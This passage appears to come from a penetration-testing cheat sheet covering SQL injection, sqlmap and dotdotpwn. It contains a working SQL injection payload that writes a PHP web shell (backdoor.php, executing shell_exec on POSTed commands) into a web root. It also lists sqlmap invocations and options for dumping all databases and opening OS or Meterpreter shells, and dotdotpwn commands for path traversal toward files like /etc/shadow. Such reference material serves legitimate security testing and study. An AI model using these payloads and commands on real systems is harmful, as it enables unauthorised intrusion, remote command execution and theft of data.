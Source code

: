 Use the time-based SQLi when you are not able to see the results.

Inject a simple web shell:

```fundamental
' UNION SELECT '', '', '', '<form method="post" action="./backdoor.php"><input name="command" type="text" value="<?php if (isset($_POST["command"])) { echo $_POST["command"]; } ?>" placeholder="Command"></form><?php if (isset($_POST["command"])) { echo "<pre>"; echo shell_exec($_POST["command"]); echo "</pre>"; } ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

To successfully inject a web shell, the database user must have a write permission.

**Always make sure to properly close the surrounding code.**

<p id="sqlmap"/>

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |

For more options run `man sqlmap`, `sqlmap -h` or `sqlmap -hh`.

<p id="dotdotpwn"/>

### dotdotpwn

Traverse a path (e.g. `somesite.com/../../../../etc/shadow`):

```fundamental
dotdotpwn -m http -h somesite.com

dotdotpwn -m http -u somesite.com/index.php?file=TRAVERSAL
```

| Option | Description |
| --- | --- |
| -m | Module \[http \| http-url \| ftp \| tftp \| payload \| stdout\] |
| -h | Hostname |
| -o | Operating System type if known ("windows", "unix" or "generic") |
| -d | Depth of traversals (default: 6) |
| -f | Specific filename (e.g. /etc/motd) |
| -u | URL with the part to be fuzzed marked as TRAVERSAL |
| -p | Filename with the payload to be sent and the part to be fuzzed marked with the TRAVERSAL keyword |
| -x | Port to connect (default: HTTP=80; FTP=21; TFTP=69) |
| -U | Username (default: 'anonymous') |
| -P | Password (default: 'dot@dot.pwn') |